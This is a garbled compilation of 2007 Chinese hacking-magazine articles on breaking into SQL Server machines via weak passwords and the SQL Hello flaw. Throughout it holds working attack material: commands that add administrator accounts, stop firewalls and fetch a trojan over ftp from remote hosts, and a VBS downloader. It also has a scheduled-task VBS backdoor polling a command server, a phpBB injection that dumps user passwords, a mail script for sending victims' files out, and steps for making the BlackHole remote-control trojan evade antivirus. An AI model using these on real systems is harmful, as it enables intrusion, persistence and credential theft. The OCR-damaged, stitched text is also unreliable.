SQL Server 2000数据口令扫描一直都是安全专家分析的主要方向之一。在网络入侵过程中，对数据库的攻击也是恶意软件攻击的重要对象之一。扫描功能可以直接扫描数据库中已知的用户口令，侵入者可以获取数据库用户的登录信息，再据此进行后续攻击。

当然，如果不能通过执行vbs脚本来上传文件，则可以通过执行ftp命令来上传文件。ftp命令如下：

```text
echo open 192.168.1.1 >b
echo ip>>b
echo ftp>>b
echo bin>>b
echo get sysinfo.exe >>b
echo bye >>b
ftp -s:b
```

查看主机基本信息。执行“sysinfo info”可以查看被入侵计算机的基本信息，该计算机操作系统为Windows 2000 Professional，如图23所示。

本案例中，由于对方计算机安装有Radmin，因此极有可能有可能的信息的控制信息。可以通过“开始”→“程序”→“Remote Administrator v2.2”→“Remote Administrator Viewer”打开“Remote Administrator”的客户端控制器，在其中有两个IP地址，如图24所示。不过知道连接密码，安装一个键盘记录器，等待用户自己连接，监听用户的键盘记录，到时候就可以将用户的控制键盘作为肉鸡，这样肉鸡就越快高高。


小结：本案例通过NTscan扫描工具对扫描主机口令，配合psexec等命令成功控制扫描出弱口令的计算机，其实在本案例中，该口令并不算弱口令，特权控制计算机的命令作为扫描口令，有时候会控制一大片计算机。

③列举SQL Server服务超时攻击。Chip Andrews的“SQLPing v2.5”可用来查看SQL服务系统，查看数据库实例以及确定版本编号。当长时间的SQL服务弱口令攻击遭受到UDP端口1434的扫描时，会出现缓存溢出问题。④破解SA口令。攻击者可以通过破解SA口令的方法进入SQL服务器数据库。Application安全公司与AppDetective和NGS软件公司的NGSSQLCrack等商业性工具软件都很高的口令的功能，还有一些其它扫描工具软件可以很好的破解sa口令，在下面的案例中会着重介绍如何通过扫描sa口令并实施完整控制。

⑤直接利用安全漏洞攻击。可以利用Metasploit等工具软件直接实施攻击，利用在正常的安全漏洞扫描过程中发现的安全漏洞实施攻击，这种攻击手段非常有效，攻击者还可利用网络软件系统，从事代码注入或者取得操作系统的命令行访问权限。

⑥SQL注入攻击。SQL注入攻击是目前网络最为流行的一种攻击类型。主要通过构造特殊的脚本进行攻击，白前广为有很多流行的SQL注入攻击工具，例如攻击者知名的HDSI3.0版，刚小子的Domain3.5等，利用这些工具来攻击数据库，往往能够对数据库服务器的内容实施控制。

⑦Google hacks。Google hacks利用Google搜索引擎不同的力量发出公开可用的系统漏洞出来的SQL服务器的相关条目，如“Incorrect syntax near”,黑客能够使用Google找到各种网络服务器中的安全漏洞。采用搜索引擎为攻击来源，主要是对系统尚未公开漏洞。

⑧通过网站漏洞寻找Oday。目前有很多网站的SQL注入漏洞，通过网络攻击这类公开的漏洞，研究和分析系统中的代码存在的问题，这些问题可能就是Oday，找到以后的利用并实施攻击。

下面使用Hscan扫描MSSQL口令并实施攻击的一个案例。

1.设置Hscan，运行Hscangui程序后，分别设置一个扫描IP端的起始IP和结束IP，最后在扫描模块中只选中“check MSSQL weak accounts”选项，如图25所示，设置完毕后在菜单中单击“start”命令进行扫描。

2.查看扫描结果。在Hscan扫描中有三个地方存放扫描结果，一个是Reports文件夹下的html文件，一个是log文件夹下的Hscan.log，最后一个是在HScan扫描窗下方区域，该区域中显示了IP地址、用户名(username)、口令(password)以及类型(type)，如图26所示。


说明：

(1) Hscan.log文件在每次扫描后内容会覆盖，不保留以前的扫描记录，因此每次扫描结束后，必须更改文件名或者另存为其它文件。

（2）关闭 HscanGUI 程序后，Hscan 扫描区域左下方的扫描结果会自动清除。

3. 连接数据库。选中类型为“ＭＳＳＱＬ”的记录，在扫描结果区域，左键单击，选择“connect”命令直接连接数据库，连接成功以后如图 27 所示。

注意：在选择记录时一定要小心，右键是清除（clean）记录命令，左键是连接（connect）命令，清除掉的结果以后不能再恢复。

4. 执行命令。在 Sqlcmd 提示符下分别输入命令“net user”、“net user aspnet aspnet2005”以及“net localgroup administrators aspnet /add”命令，查看并添加“aspnet”用户及“aspnet2005”并提示“aspnet”用户的权限到 Administrators 组中，如图 28 所示。

说明：由于这种弱口令 MSSQL 服务器很有可能被多个个人侵入进行扫描，入侵者在入侵成功后会将一些存储过程删除掉，导致 Sqlcmd 连接住是却不能执行命令。这个时候可以通过 SQL 查询分析器连接该数据库，连接成功后可以查数据库的内容，通过数据库中表的内容（什么 user 表等）并配合 Web 来实施控制，数据库中的一些表包含用户名和密码等信息。

5. 执行更本地添加命令。在 Dos 命令提示符下输入“psexec \\218.*.*.212 cmd -u aspnet -paspnet2005”出来一个 DosShell，可以在该 Shell 上上传木马程序、开启 3389 远程终端服务等。

小结：本案例主要通过扫描 MSSQL 弱口令来实施攻击，一旦扫描出 MSSQL 的弱口令，则很容易通过 Hscan 的 SQLcmd 连接工具进行连接，连接成功后便可以在 Dos 下操作命令一样，当一个 DOS 下的 Shell，可以执行各种命令。

【文章呈现到的工具 NTSCAN 已收录在书中】

# 对某电信短信息服务系统的一次“偶然”安全检测

通过本文你可以学习到：

- SQL Hello 扫描工具的利用
- 上传文件
- 信息搜集和分析
- 使用 vbs 脚本查看 3389 端口

本次安全检测完全是偶然，SQL Hello 漏洞出现到现在已经 N 年了，在整理个人资料时发现还有一个对 SQL Hello 漏洞扫描工具，不杀许软件群经过对其进行了一系列漏洞扫描，在测试过程中似乎注入了国内某电信服务商，因此在文本中，从整个检查过程中来看，系统的安全做的还是不错，错就错在了存在这么操作系统。

## 一、SQL Hello 漏洞初识

在 Microsoft SQL Server 7.0 版本 7.00.1077 之前与 Microsoft SQL Server 2000 版本 8.00.760 之前存在若某些弱点，比如在客户端与 Microsoft SQL Server 进行联网时，如果客户端传送特异的信息，可能会造成 Microsoft SQL Server 执行发生问题，进而可将系统的控制权。比较著名的是 SQL Hello 漏洞，只要安装 SQL Server 的数据库服务器没有安装 SQL Server 2000 SP3 补丁，则通过 SQL Hello 漏洞利用工具可以很方便的登录到 SQL Server 2000 服务器。即使服务器上面进行较严格的防范，也是可以成功攻破服务器。

## 二、实施控制的具体过程

SQL Hello 漏洞被发现后曾经出现了很多的漏洞扫描和利用工具，下面的案例就是通过 SQL Hello 漏洞利用工具来进行扫描，并进行权限提升，最终达到完全控制该服务器的过程。

我们使用 “MySQLSrv8.0.194 AutoAttack” 工具，直接运行 “MySQLSrv8.0.194 AutoAttack” 在 “Start IP” 和 “End IP” 分别输入对 SQL Server 2000 数据库进行扫描的起始 IP 地址和结束 IP 地址，然后点击右边的箭头按钮，将 IP 地址加入到扫描列表中，在 Options 中还可以设置最大线程、超时以及扫描的 SQL Server 的端口，一般使用其默认值即可，如图 1 所示。

注意：

- 扫描 IP 地址范围不要设置得过大，一般一个 C 段和 B 段 IP 为佳。
- 扫描时间不是越长越好，对此类软件的 IP 地址搜索，结果是根据一个 IP 地址扫描，则会根据结果中的 IP 地址一定好即可。

下面自动扫描。设置完毕后，在 “MySQLSrv8.0.194 AutoAttack” 中单击 “Scan” 按钮开始扫描。扫描时，MySQLSrv8.0.194 AutoAttack 程序的扫描进度会在 State 中进行显示，State 中包含总共的 IP 数、最大线程、超时、扫描命中值等信息，如图 2 所示。

当工具扫描存在漏洞的计算机时，会自动反弹一个 DOSShell 出来，不过由于网络以及服务器自身受限等原因，有可能会出现反弹的一个不完整 DOSShell 窗口，如图 3 所示，该 DOSShell 表明服务器存在 SQL 漏洞，但是无法反弹一个完整的 DOS Shell，不能执行下一步的命令。这个情况下的反弹 Shell 基本没有作用，直接关闭，继续等待扫描结果。

说明：

- “MySQLSrv8.0.194 AutoAttack” 工具扫描时其结果有两种保存方式，一是直接在扫描窗口的下方显示，如图 4 所示，结果中主要包含 IP 地址以及数据库服务器的版本，这些结果都存在 SQL Server 2000 漏洞的机器上。
- 另外一种结果是将扫描结果保存为一个以时间命名的文……## 非安全黑客手册 2007.11 →【西线无战事】

Txt 文件，其中也包含了 IP 地址、数据库服务器的版本号等信息，如图 5 所示，结果表明记录了扫描过程中所有存在 SQL Server 的数据库服务器 IP 地址及其 SQL Server 的数据库服务器版本号。

扫描结果中只有完全反弹的 Shell 才有用，完全反弹的 Shell 可以在其中执行各种命令，这种 Shell 跟 DOShell 窗口比较相像，在反弹的 Shell 中就能进行一个 DOSShell，如图 6 所示。

在该 DOSShell 中执行“net user”查看用户命令，结果显示为“net 不是内部或外部命令，也不是可运行的程序或批处理文件”，如图 7 所示。

说明

在一些安全做得好的计算机上，为了防止入侵者在计算机中执行命令，就将一些对系统有安全威胁的程序判断成病毒而重新命名为其它名称，这些程序主要包括“net.exe”、“net1.exe”、“ftp.exe”、“cscript.exe”、“ftp.exe”等。

在本例中由于管理员等一些危险的 DOS 程序全部删除掉了，因此只能从计算机文件中去寻找突破手段。通过查看现有的该服务器中存在很多目录，从系统手工目录，直接进入系统目录，输入“dir net*.exe”查看是否存在 net.exe 等应用程序，查看结果表明该目录中存在 net.exe；使用“copy net.exe c:\winnt\system32\”将 net.exe 程序复制到真正的系统 system32 目录下，然后继续将 FTP、query.exe、cscript.exe 等程序复制到该目录下，如图 8 所示。

下面我们来查看远程终端连接和查看程序，输入“query user”命令查看系统的终端使用情况，在查看结果表中显示存在远程终端，接着输入“net user”命令再次查看该计算机中的用户情况，如图 9 所示。

```text
Echo Dim RdendComputerName >>port.vbs
Echo Set=ReadComputerName,reg>>port.vbs
>>port.vbs
Echo Dim TSName,TSRegPath >>port.vbs
Echo WScript.Echo("Terminal Services\TermService port is:" & TSName) >>port.vbs
```

Cscript port.vbs

命令执行完毕后显示远程终端 3389 端口为“5430”，如图 10 所示。

说明

在安装有 SQL Server 数据库服务器的计算机中，其操作系统多为服务器操作系统，对 Windows 服务器操作系统来说，使用远程终端桌面来进行完全控制反馈是一种常用手段。接着我们要添加管理员用户，分别输入“net user aspnet ***** /add”、“net localgroup administrators aspnet /add”以及“net localgroup administrators”，来“添加 aspnet 用户”、将“aspnet”用户加入到管理员组中，以“查看管理员组中的所有用户”，如图 11 所示，然后注册上传文件并连接 3389 远程终端服务器可以使用以下命令来上传文件：

```text
echo open 221.4...\>b
echo myftp>>b
echo ftp>>b
echo bin>>b
echo get muma.exe>>b
echo bye>>b
ftp -s:b
del b
```

在反弹的 Shell 执行以上命令后，显示无法执行 Ftp 命令，怀疑存在防火墙，使用“net start”命令查看系统已经启动的服务，服务里面存在“Rising Process Communication Center”等防火墙。分别使用 net stop “Rising Process Communication Center”、net stop “Rising Personal Firewall Service”、net stop “Rising Process Communication Center”等命令，将防火墙关掉后就可以使用 ftp 进行上传文件，如图 12 所示。

在上传文件时可以采用三种方式，其中一种是 ftp，另外两种是通过 vbs 脚本上传。vbs 脚本上传前提条件是在系统 system32 目录中存在 cscript.exe 文件，在本例中通过 ftp 批处理命令不能上传文件，只能通过 vbs 脚本来。在该计算机的另外一个操作系统中将 cscript.exe 文件复制到 system32 目录中，然后执行 vbs 上传文件脚本，vbs 脚本就进行文件上传了。代码如下：

```text
echo Idx = LCase([WScript,Arguments])jget.vbe
echo [Remote = LCase(WScript.Arguments(0)) >jget.vbe
echo Set xPost, [CreateObject]("Microsoft.XMLHTTP") >jget.vbe
echo xPost.Open "GET",[Remote,0] >jget.vbe
echo xPost.Send("") >jget.vbe
echo Set xPost = createObject("ADOOB.Stream") >jget.vbe
echo xPost.Open
echo xPost.Write(xPost.responseBody) >jget.vbe
echo xPost.SaveToFile [Local, 2] >jget.vbe
```

# 利用 VBS 辅助入侵

不知道大家看了上期的文章里的几则 vbs 代码，有何感想。他们有的高手凭本门派，一则，之某个叫一，很多脚本其实是采用 VBS 作为代码载体来运行的。利用 VBS 来写一个微软推荐的工具是相当广泛的（其实是因为不够安全），但是用它来辅助入侵，则有的和普遍的？今天还是来写三个例子吧。

## 一、更改注入代码框的长度

有的注入点是在文本框里的，像搜索之类的注入。当然，抓包提取出注入点的 url 然后放在工具里也是可以的。先留着其中的话，可以直接在文本框里写入注入代码任意语句长度。但这时候就会有一些问题了，有的文本框限制了你提交内容的长度。很多人这时做的做法是将该注入页面保存下来，再打开 html 里的长度限制，然后再来使用。这样一来，不仅麻烦，而且有时还会带来 referer 的问题。我们可以写一个 vbs 代码，导入注册表，直接更改页面上的文本框长度就可以了。

```vbs
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\MenuExt\扩展]
"contexts"=dword:00000004
"d"=dword:00000001
```

这个扩展 .reg 中放在 d: 下的 len.html 里的内容是这样的：

```html
<script language=vbs>
set srcEvent = external.menuArguments.event
set doc=external.menuArguments.document
set ele=doc.all.elementform
set ele=doc.all.elementform[srcEvent.clientX, srcEvent.clientY]
if ele.type = "text" or ele.type = "password" then
   ele.maxlength=800
   ele.size=200
end if
</script>
```

我们把扩展 .reg 导入注册表后，再遇到文本框的限制后，就有办法对付了，点击图 1 中的扩展后，就有图 2 所示的效果了，文本框比原来的长度长了好多呀。

## 二、VBS 代码控制 Cookie

如果是溢出的网马，挂在网上后，客户端的 IE 会很卡。如……将这些程序复制到当前系统 system32 目录下，并执行添加用户等命令后，成功登录远程终端 3389 并控制了该服务器……

小结

本案例通过对存在 SQL Hello 漏洞的 SQL Server 数据库服务器进行扫描，对随机抽取的反弹数据库服务进行了完全控制，在上传文件过程中使用了三种上传文件方法，并针对无法获取 3389 端口的情况下使用 vbs 脚本成功获取 3389 的端口，通过查看计算机中的硬盘中的资料，获取了有用的信息，发现系统存在安全漏洞，在该系统中存在一些可以被扩展的 DOS 命令程序。

【文章中找到的 MySQLSrv 已放在本期光盘中】

编辑点评：

这篇文章，让我有点的喜感，也开始领到到 2003 年了，不过这篇文章还是有一些可取之处的，虽然现在注入文章流行，杀死很多人文章大多写一两篇来说还是不够的，但是就不是像作者去写更多的这样的杂烩版的东西了。

## 三、VBS 省去手工操作的麻烦

前不久有一个 phpbb 的漏洞，进入后台就是 links.php?t=search&search_keywords=asd&start=1,1 UNION SELECT 1,username,user_password,4,5,6,7,8,9,10,11,12,13 FROM phpbb_users where user_id=2/4。我找了个有漏洞的站，抓了个图 3。

如果将语句改成 links.php?t=search&search_keywords=asd&start=1,1 UNION SELECT 1,username,user_password,4,5,6,7,8,9,10,11,12,13 FROM phpbb_users where user_id limit 0,10/* 的话就会弹出前 10 个用户的名称和密码。要想提取的字段少，我们要把到处去的字段数将字段段列提前到 13，中文要破解中的页面就可了。另外，如果里面的字段值不同的话，原页面会有提示，说明没找到该字段名。像我们用错误的字段数列提交一下，会有图 4 的提示：

> SQL Error: 1222 The used SELECT statements have a different number of columns.

从图 4 中的提示中很容易猜到原有的字段和表名。我们假如一切默认，需要将这些执行在前用户和密码都记录下来，使用手工就有点累了，可以写一个 phpbb.vbs 脚本，让它自动保存。代码如下：

```vbscript
<SCRIPT LANGUAGE="VBScript">
'取得 cookie 内容函数
function GetCookie(sName)
    DIM aCookie, i, aCrumb
    GetCookie = ""
    aCookie = split(document.cookie, ";")
    FOR i = LBOUND(aCookie) to UBOUND(aCookie)
        aCrumb = split(aCookie(i), "=")
        if sName = aCrumb(0) then
            GetCookie = unescape(aCrumb(1))
            exit FOR
        end if
    NEXT
end function

if GetCookie("1")<>"" Then
    Document.write("<iframe src='http://www.sohu.com'></iframe>")
'可改成你的独立页面，这里的 sohu.com 只是假示一个。
document.cookie = "1" & amp; escape("1") & "1"; expires=Tue, 31 Dec 2009 23:59:59 GMT"
' cookie 的有效期我们让它到 2009 年
end if
</SCRIPT>
```

运行效果如图 5 所示。运行完后，C 盘就有一个 40.htm 文件了，里边就会有前 40 个用户的名称和密码，图 5 中的命令改成 cscript phpb.vbs http://forum.proanamia.com/ 40 80，就会在 c: 生成 80.htm，里面就会有 40-80 之间的用户名和密码了，是不是很方便呢？

当然这个 phpbb.vbs 脚本很短很短，可以更好的完善这个工作就交给亲爱的读者了。

# VBS 脚本活用

VBScript 的全称是 Microsoft Visual Basic Script Edition（微软公司可视化 BASIC 脚本版），正如其字面所述，VBS（VBScript 的进一步简写）是一款 Visual Basic 脚本语言。VBS 作为 Windows 默认支持的脚本语言，在 Windows 中发挥着举足轻重的作用。上期杂志的两篇关于 VBS 的文章我们都忽略到了它独特的魅力。一切记事本都是为了网站问题而存在，在这篇文章中，我们将为大家列出多个 VBS 的实例，以便读者能够将 VBS 适用于实践中去。

## 一、运行系统命令

WScript 是 Windows 脚本宿主对象模型的对象。它提供多个对象，比如 WScript、Arguments 和 WScript.Shell，分别提供对象命令行参数的访问、后者可以运行程序、操纵注册表内容、创建快捷方式或访问系统文件。以下是一个 VBS 调用 WScript.Shell 执行程序的例子：

```vb
Set WshShell=CreateObject("WScript.Shell")
Output = WshShell.exec("cmd /c net user Lin 123456 /add").stdout.readall
Wscript.echo Output
```

大家一定记得，我们运行程序的时候一般都会在用户界面里下一个窗口。如何运行 `cmd /c lcx --slave 222.217.246.73 5127 127.0.0.1 3389` 呢？在一个命令窗口中，并一直保留在用户界面直到程序关闭，这样保留命令窗管理权限，方便工具的执行。有了 VBS，我们可以轻松地把这个 cmd 窗口隐藏地后台运行：

```vb
Set WshShell = CreateObject("WScript.Shell")
WshShell.Run "cmd /c lcx -slave 222.217.246.73 51 127.0.0.1 3389", 0
```

## 二、连接数据库

VBS 也可以连接数据库，以下是一个连接 Access 的例子：

```vb
Set conn = CreateObject("ADODB.Connection")
创建ADO数据库连接
conn.ConnectionString = "Provider=Microsoft.Jet.OLEDB.4.0;Data Source=..."
conn.open
set rs=conn.execute("SELECT 123 as a")
wscript.echo rs("a")
```

## 三、写文件

当然，读写文件对 VBS 来说也是小菜一碟：

```vb
Function write2File(fileContent)
    Set fso = CreateObject("Scripting.FileSystemObject")
    Set theFile = fso.OpenTextFile("C:\WINDOWS\system32\windows\VBS.log", 2, True)
    theFile.Write fileContent
    theFile.Close
    Set theFile = Nothing
End Function
```

## 四、读取一个网页

VBS 还可以读取网页：

```vb
Function httpGet(url)
    If Left(url,4)<>"http" Then
        url = "http://" & url
    End If
    Set objXMLHTTP=CreateObject("Microsoft.XMLHTTP")
    objXMLHTTP.Open "GET", url, 0
    objXMLHTTP.send
    If objXMLHTTP.status<200 Then
        httpGet=False
    else
        httpGet=objXMLHTTP.responseText
    End If
End Function
```

## 五、改变终端服务端口号

```vb
port= 2008    '要改成的端口
Set WshShell=CreateObject("WScript.Shell")
WshShell.RegWrite "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\Tcp\PortNumber", port, "REG_DWORD"
WshShell.RegWrite "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp\PortNumber", port, "REG_DWORD"
```

## 六、打开 Windows 防火墙的端口

```vb
port= 23    '要打开的端口
Set WshShell = CreateObject("WScript.Shell")
WshShell.RegWrite "HKLM\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\StandardProfile\GloballyOpenPorts\List\port:TCP:23", "Enable:...", "REG_SZ"
```

## 七、重启计算机

利用 WScript.Shell 的 SendKeys 方法，可以向应用程序发送按键信息，如重启计算机：

```vb
Set WshShell = CreateObject("WScript.Shell")
WshShell.SendKeys "{ESC}"
WshShell.SendKeys "R"
```

## 八、写一个后门

学了这么多例子，没有想过利用 VBS 写一个脚本后门？当病毒上的各类木马劫持命令杀毒软件清除后，一个定时运行的脚本后门可能是你最后的希望。

- 1. **自动启动**：大多数后门都使用注册表或创建系统服务的方式实现自动启动，杀毒软件并不容易在卸载后，这是中招后进自我恢复，并且在 VBS 或 EXCEL 宏里写入代码，也可在用户登录前运行；
2. **后门的连接**：VBS 网络功能有限，不能直接发起 socket，只能使用 http 访问服务器，获取控制命令。

```vb
On Error Resume Next
url = "http://.../VBScommand.php?time=" & Now
Set WshShell = CreateObject("WScript.Shell")
... '忽略脚本错误
```

# 《黑安全：黑客手册》2007.11 ->【高手专栏】

Function ini()

“检查是否存在 C:\Program Files\WindowsUpdate\windowsVBS.vbs，不存在的话就复制过去”

Set fso = CreateObject("Scripting.FileSystemObject")
Set MyFile = fso.GetFile(wscript.scriptfullname)
if wscript.scriptfullname <> "C:\Program Files\WindowsUpdate\windowsVBS.vbs" Then
    MyFile.Copy "C:\Program Files\WindowsUpdate\windowsVBS.vbs"
    ' 不使用 C:\WINDOWS\system32\windowsvbs.vbs，避开杀毒软件的主动防御
    MyFile.Delete()
    WSHShell.Run ("cmd /c cscript.exe C:\Program^1\WindowsUpdate\windowsVBS.vbs", 0)
    wscript.quit
End if

If InStr(WSHShell.exec("at").stdout.readall, "windowsVBS.vbs") <> 0 Then
    wscript.echo "Schedule started"
Else
    Set oExe = WshShell.Exec("sc config Schedule start= auto")
    Set oExe = WshShell.Exec("sc start Schedule")
    Do While oExe.status = 0
        WScript.Sleep 100
    Loop
    WshShell.run("AT 1 /del", 0)
    WshShell.run("AT 2 /del", 0)
    WshShell.run("AT 3 /del", 0)
    WshShell.run("AT 12,00 /every,M,T,W,Th,F,S,Su cscript.exe C:\Program^1\WindowsUpdate\windowsVBS.vbs", 0)
    WshShell.run("AT 18,00 /every,M,T,W,Th,F,S,Su cscript.exe C:\Program^1\WindowsUpdate\windowsVBS.vbs", 0)
    WshShell.run("AT 22,00 /every,M,T,W,Th,F,S,Su cscript.exe C:\Program^1\WindowsUpdate\windowsVBS.vbs", 0)
End Function

Function httpGet(url)
    ' 读取网页的函数
    If Left(url,4) <> "http" Then
        url = "http://" & url
    End If
    Set oXMLHTTP = CreateObject("MSXML2.XMLHTTP")
    oXMLHTTP.Open "GET", url, 0
    oXMLHTTP.send
    If oXMLHTTP.status <> 200 Then
        httpGet = False
    Else
        httpGet = oXMLHTTP.responseText
    End If
End Function

然后，我们在 http://211.71.147.3/VBSCommand.php 写入要 VBS 后门运行的 VBS 代码，例如以下 PHP 代码，作用是让 VBS 后门运行 user linx 123456 /add 命令，并把运行结果发送到 http://211.71.147.3/VBSCommand.php：

Set WshShell=CreateObject("WScript.Shell")
WshShell.exe("cmd /c net user linx 123456 /add")
httpGet("http://" & $_SERVER[SERVER_NAME]/$_SERVER[PHP_SELF] . "?a=" & ?)
$onlineip = $_SERVER['REMOTE_ADDR']; // 客户端的 ip
$request = readfile("$_REQUEST['a']");
fopen("VBSCommand.txt", "a+");
write($f["$onlineip", $request . "\r\n"]);
close($f);

这篇文章到这里就结束了，希望读者学习了 VBS 后，能够把这项技术灵活运用到实践中去。有不明白的地方可以翻看光盘里的 "Windows脚本技术.CHM"，有了这个 CHM 文档，相信一切关于 VBS 的问题都会迎刃而解。

> 【文章受代码已收录在点滴札集】

编辑点评：

作者写了几个 VBS 的小句子，让大家明白了一些常见的 VBS 语法，然后再写出了一个木马。实际上，这些话，读者看了后也觉得味同嚼蜡，不得要领。重点是，咱要那些脚本的攻击代码放在文章里，实在很到位。PHP 的语法较多，如 http://$_SERVER[SERVER_NAME]、$_SERVER[PHP_SELF] 这些写法真是奇葩又新鲜。

# 谈 VBS 在 Hacking 中的作用之二

- 1. 挑选速度快的肉鸡做 VPN

上一期写了 VBS 的注入脚本，这次给大家带来两个脚本，希望小弟们能管用。就目前的出发点来说，当自己从外网转为老菜鸟时，就懂得从这种力大出奇、简单又高效的肉鸡中作些文章。比如把脚本放入服务器中，利用其将一个文件复制到别处、删除原文件并执行等。

On Error Resume Next

```vb
'code by NetPatch
Set args=WScript.Arguments
If Arg.count<>0 Then WScript.quit
Num=0

SzBuf = InputBox("请输入要找的 Ping 时间值：", "输入", "200")
'调用出港消息输入框来获取要查找的时间
Set Fso=CreateObject("Scripting.FileSystemObject")
'声明Fso组件
Set Gofile=Fso.OpenTextFile(Arg(0),1,False,-2)
'打开进来的文件
Do While Gofile.AtEndofLine <> True
    Ip=Gofile.Readline
    '读取一行
    Set oShell = WScript.CreateObject("WScript.Shell")
    '声明 WSH 组件
    Set oExec = oShell.Exec("ping -n 1 " & Ip)
    '执行 PING 命令，然后把结果写到文件中
    Set File=Fso.OpenTextFile(sArg(0)&".txt",8,True)
```


# 黑洞的搜索
及自定义服务

从本文你可以学习到：

1. 黑洞的免杀技术
2. 黑洞的自定义服务端

黑洞作为一款老牌的远程控制软件，由于其众多的技术亮点以及稳定性，得到了广大用户的喜爱。可是不是也住在他的远程控制软件，都无法绕过最近被查杀的厄运。今天我们就来看看黑洞如何进行 DIY 修改，并最终对其进行有效的免杀操作。

用法就是把你的肉鸡 IP 列表拉到这个 VBS 脚本上，再填入你要找的 PING 时间值，即可很快找出哪台肉鸡相对比较快（当然，前提是你的肉鸡为防 Ping！不过话说回来，求杀 PING 的话，估计打死你大概一点的杀气，再做有可能不会及格 VPN 了）。

## 二、利用 VBS 发送邮件

参透过杀毒，我们需要在 DOS 下打包对方的某些东西，但碰巧对方刚好太脆弱，我们没办法利用 FTP 等方法上传工具。这个时候，下面的脚本 mail.vbs 就派上大用场了，可以很轻松地将对方的东西，当附件发送到自己邮箱。

```vb
Function Send_mail(You_Account, You_Password, Send_Email, Send_Email2, Send_Topic, Send_Body, Send_Attachment)
'code by NetPatch
'VBS发送邮件参数说明
'You_Account: 你的邮箱帐号
'You_Password: 你的邮箱密码
'Send_Email: 主要邮件地址
'Send_Email2: 备用邮件地址
'Send_Topic: 邮件主题
'Send_Body: 邮件内容
'Send_Attachment: 邮件附件
...
With Email.Configuration.Fields
  .Item(MS_Space&"sendusing") = 2
  .Item(MS_Space&"smtpserver") = "smtp."&You_ID[1]
  .Item(MS_Space&"smtpserverport") = 25
  .Item(MS_Space&"smtpauthenticate") = 1
  .Item(MS_Space&"sendusername") = You_ID[0]
  .Item(MS_Space&"sendpassword") = You_Password
  .Update
End With
Email.Send
Set Email=Nothing
...
If Send_Mail(...) Then
  Wscript.Echo "发送成功"
Else
  Wscript.Echo "发送失败"
End If
```

## 一、提取 DLL 文件

黑洞远程控制服务的版本一般以前的作法，将 DLL 文件植入到系统进程 `svchost.exe`，从而方便服务程序穿透防火墙。但是黑洞配置完成的服务端，DLL 文件不是以资源和数据存放，无法使用常规办法将 DLL 文件从服务端导出，因此也就很多人认为它无法导出。现在已经有人为了方便大家的免杀，写了个 DLL 文件的提取免杀软件，这样就可省掉步骤。

首先运行黑洞程序界面，采配置一个线程植入型的服务端程序。这里需要注意的是，生成的服务器程序不要加壳。因为我使用了“生成服务器后自动用 UPX 加壳压缩”的选项。将选择用“灰色按钮安装的程序”，并将“在任务栏显示图标”灰色选中的问题去掉。对运行“黑洞 1.96 服务器端”程序，在“未加壳服务端”程序中设置服务端的路径。接着在“提取 DLL 文件”任务框中选择 DLL 文件的路径，然后点击“提取”按钮，即可将相关信息导出，如图 1 所示。


## 二、免杀 DLL 文件

现在运行资源修改工具 Restorator，点击工具栏上的“打开文件”按钮，选择导出的 DLL 文件，和一个微软系统自带的 DLL 文件。在资源树下找到系统自带的 DLL 文件内容，将要在其中找到“版本”项目，然后通过鼠标拖拽把黑洞 DLL 文件的资源内容中存在资源项删除，这样就可实现对 DLL 文件进行“免杀”处理。最后然后点击“文件”菜单中的“另存为”命令，修改后的 DLL 文件就会保存到下面选择“花指令”的界面中。


最后点击“文件”菜单下的“另存为”命令，将修改的 DLL 文件重新保存即可。下面选择“花指令伪装器”，点击“文件名”后面的“浏览”按钮，选择刚刚处理过的 DLL 文件，接着在下面的列表中任意选择一个花指令代码，最后直接点击“加花”按钮即可，如图 3 所示。这里再次运行防虚拟机 WinKipT，点击窗口中的“Open”按钮选择 DLL 文件，直接点击“Do It”按钮就可以完成加花处理。最后通过“黑洞 1.96 服务器端 DLL 提取器”程序，将免杀的 DLL 文件再导入服务器端文件中，这样 DLL 文件的免杀工作就到此为止。


## 三、免杀 EXE 文件

现在对服务端程序进行免杀操作，首先利用工具 C32Asm 打开变成文件，修改服务程序片段中的服务名称，相关连接信息修改后再修改配置文件 brc_server.dat 来防止被服务端杀毒查杀。点击程序窗口中的“搜索”菜单中的“替换”命令，在弹出的窗口中输入搜索内容 `BRC_Services`，接着在“替换”输入框中输入其空字符串，比如这里我们输入 `HKIMMSERVICES`，然后再次点击“替换”按钮执行关键字的替换，如图 4 所示。


接着按照上面的方法对 `BlackHole Remote Control Services`、`黑洞`、`brc_Server.dat`、`brc_Server.dll` 等其它的关键字进行替换并保存。最后运行加壳程序 Modified，点击窗口中的“Source”来选择处理过的服务端程序，接着直接点击“protect”按钮就可以进行初步处理，如图 5 所示。


## 四、自定义服务端

随着以后黑洞的不断升级，不可能随时都有“服务端 DLL 提取器”可以使用，这时我们就要发挥主观能动性，对服务程序进行自定义操作。首先在本地配置一个服务端程序进行反汇编，生成 Windows 自启动服务程序的 DLL 文件，通过上面的方法对 DLL 文件进行免杀。并且将其重命名为 system.dll。

接着打开注册表编辑器，依次导出上面的注册表内容，并另存为 reg1.reg 和 reg2.reg，再导入为 HKLM\SYSTEM\ControlSet001\Services\BlackHole\RemoteControlServices\Parameters 和 HKLM\SYSTEM\ControlSet001\Services\BlackHole\RemoteControlServices\Parameters。再通过记事本程序将 reg1.reg 和 reg2.reg 中的“BlackHole Remote Control Services”改为一个你自己喜欢的服务系统名称，比如这里修改为 WINService 这个名称。

然后同样通过 C32Asm 来修改服务端程序，点击程序窗口中“搜索”菜单中的“命令”，在弹出的窗口中搜索 `brc_Server.dll` 和 `BlackHole Remote Control Services` 关键字，接着点击鼠标右键中的“填充”命令，并且选中“使用十六进制填充”选项，在填充框中输入“00”后点击“确定”按钮，如图 6 所示。


之后以该位复制的方式打上加密后，也即可复制另装系统服务。另外重要信息内容将放在上面的数据表中。更对我们来说，接着并为服务器端按上面的免杀操作进行修改。接下来把配置文件 brc_server.dat 文件中其他系统新配置信息改为对应的系统路径。

```text
@echo off
@cls
@color A
@systemroot%\system32\hack\heydong.exe
@copy /y %systemroot%\system32\hack\system.dll %systemroot%\system32\hack\system.dll
@regedit /s %systemroot%\system32\hack\reg1.reg
@regedit /s %systemroot%\system32\hack\reg2.reg
@attrib +h +s %systemroot%\system32\hack\system.dll
@attrib +h +s %systemroot%\system32\hack\brc_server.dat
